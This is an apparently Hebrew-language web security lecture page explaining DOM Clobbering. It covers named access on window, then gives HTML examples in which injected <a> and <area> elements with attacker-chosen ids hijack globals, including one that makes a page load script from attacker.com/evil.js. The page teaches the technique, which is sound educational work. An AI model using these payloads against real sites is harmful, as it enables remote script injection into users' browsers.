

repository: AmitPinchasi/amittech · page: מחקר-אתרים-מתקדם/4 - תקיפות צד לקוח מתקדמות/4.4 - שיבוש DOM - DOM Clobbering/4.4 - שיבוש DOM - DOM Clobbering - הרצאה/index.html · generator: mkdocs

# שיבוש DOM - DOM Clobbering

## גישה על שם - Named Access on Window

דפדפנים מספקים מנגנון שנקרא "named access on the Window object". כאשר אלמנט HTML מקבל `id` או `name`, הוא נגיש כמשתנה גלובלי:

```html
<img id="myImage" src="photo.jpg">
<script>
  console.log(myImage);              // HTMLImageElement
  console.log(window.myImage);       // HTMLImageElement
  console.log(window['myImage']);     // HTMLImageElement
</script>
```

זה עובד גם עם `name` attribute:

```html
<form name="myForm">
  <input name="email" value="test@test.com">
</form>
<script>
  console.log(myForm);               // HTMLFormElement
  console.log(document.myForm);      // HTMLFormElement
  console.log(myForm.email);         // HTMLInputElement
  console.log(myForm.email.value);   // "test@test.com"
</script>
```

## מהו שיבוש DOM - DOM Clobbering

שיבוש DOM מתרחש כאשר תוקף יוצר אלמנטי HTML עם `id` או `name` שדורסים משתנים גלובליים או תכונות של אובייקטים קיימים. זה מאפשר לשנות התנהגות של קוד JavaScript בלי להזריק סקריפטים.

```html
<!-- legitimate code that expects a config object -->
<script>
  // if config is not defined, use the default value
  let analyticsUrl = window.config || '/default/analytics.js';
  let s = document.createElement('script');
  s.src = analyticsUrl;
  document.body.appendChild(s);
</script>

<!-- attacker injects: -->
<a id="config" href="https://attacker.com/evil.js"></a>
```

כש-JavaScript מבצע `window.config`, הוא מקבל את אלמנט ה-`<a>`. כש-`<a>` מומר למחרוזת (דרך `toString()`), הוא מחזיר את ערך ה-`href`.

## שיבוש עם אלמנטים שונים

### אלמנט a

`<a>` הוא האלמנט הכי שימושי ל-clobbering כי `toString()` שלו מחזיר את ה-`href`:

```html
<a id="url" href="https://attacker.com/evil.js"></a>
<script>
  console.log(url);            // HTMLAnchorElement
  console.log(url.toString()); // "https://attacker.com/evil.js"
  console.log(url + '');       // "https://attacker.com/evil.js"
  console.log(`${url}`);       // "https://attacker.com/evil.js"
</script>
```

### אלמנט area

`<area>` עובד בצורה דומה ל-`<a>`:

```html
<map name="test"><area id="url" href="https://attacker.com/"></map>
<script>
  console.log(`${url}`); // "https://attacker.com/"
</script>
```
